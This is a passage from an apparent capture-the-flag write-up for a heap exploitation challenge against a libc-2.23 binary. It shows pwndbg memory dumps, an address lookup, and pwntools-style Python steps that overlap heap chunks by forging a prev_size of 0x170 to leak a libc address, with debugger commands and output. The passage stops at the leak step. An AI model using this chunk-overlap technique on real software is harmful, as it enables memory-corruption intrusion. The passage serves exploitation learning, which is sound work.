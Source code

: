 0x6c3160:	0x3131313131313131	0x3131313131313131
0x6c3170:	0x3131313131313131	0x3131313131313131
0x6c3180:	0x3131313131313131	0x3131313131313131
0x6c3190:	0x0000000000000170	0x0000000000000100
0x6c31a0:	0x3232323232323232	0x3232323232323232
0x6c31b0:	0x3232323232323232	0x3232323232323232
0x6c31c0:	0x3232323232323232	0x3232323232323232
0x6c31d0:	0x3232323232323232	0x3232323232323232
0x6c31e0:	0x3232323232323232	0x3232323232323232
0x6c31f0:	0x3232323232323232	0x3232323232323232
0x6c3200:	0x3232323232323232	0x3232323232323232
0x6c3210:	0x3232323232323232	0x3232323232323232
0x6c3220:	0x3232323232323232	0x3232323232323232
0x6c3230:	0x3232323232323232	0x3232323232323232
0x6c3240:	0x3232323232323232	0x3232323232323232
0x6c3250:	0x3232323232323232	0x3232323232323232
0x6c3260:	0x3232323232323232	0x3232323232323232
0x6c3270:	0x3232323232323232	0x3232323232323232
0x6c3280:	0x3232323232323232	0x3232323232323232
0x6c3290:	0x0000000000000170	0x0000000000000020
0x6c32a0:	0x3333333333333333	0x3333333333333333
0x6c32b0:	0x0000000000000000	0x0000000000020ce1
0x6c32c0:	0x0000000000000000	0x0000000000000000
pwndbg> xinfo 0x00007fed0c14bb78
Extended information for virtual address 0x7fed0c14bb78:

  Containing mapping:
    0x7fed0c14b000     0x7fed0c14d000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so

  Offset information:
         Mapped Area 0x7fed0c14bb78 = 0x7fed0c14b000 + 0xb78
         File (Base) 0x7fed0c14bb78 = 0x7fed0bd87000 + 0x3c4b78
      File (Segment) 0x7fed0c14bb78 = 0x7fed0c1477c0 + 0x43b8
         File (Disk) 0x7fed0c14bb78 = /lib/x86_64-linux-gnu/libc-2.23.so + 0x1c4b78

 Containing ELF sections:
               .data 0x7fed0c14bb78 = 0x7fed0c14b080 + 0xaf8
```
since it is overlapped, we can show to leak libc address
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
add(0xf0, 'x' * 0x10)
pause()
show()
```
```gdb -q -p `pidof pwn` -ex "b *0x40099B" -ex "c"```
ni again and again get
```
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'0 : xxxxxxxxxxxxxxxx'
0 : xxxxxxxxxxxxxxxx[DEBUG] Received 0xa bytes:
    00000000  31 20 3a 20  78 0b ef fb  c7 7f                     │1 : │x···│··│
    0000000a
1 : x\x0b\xfb\xc7$  
```
write code to recv it
```python
add(0xf0, '0' * 0xf0)
```